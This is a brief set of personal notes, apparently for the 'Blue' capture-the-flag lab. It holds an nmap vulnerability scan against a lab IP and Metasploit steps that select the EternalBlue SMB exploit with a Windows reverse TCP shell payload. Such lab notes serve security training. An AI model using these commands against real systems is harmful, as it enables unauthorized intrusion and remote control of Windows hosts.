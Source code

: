 # BLUE

```
export IP=10.10.250.148
```

```
nmap -sV -sC --script=vuln -oN nmap/inicial.out $IP -p- -Pn -vv
```
# metasploit
```
exploit/windows/smb/ms17_010_eternalblue
set payload windows/x64/shell/reverse_tcp
```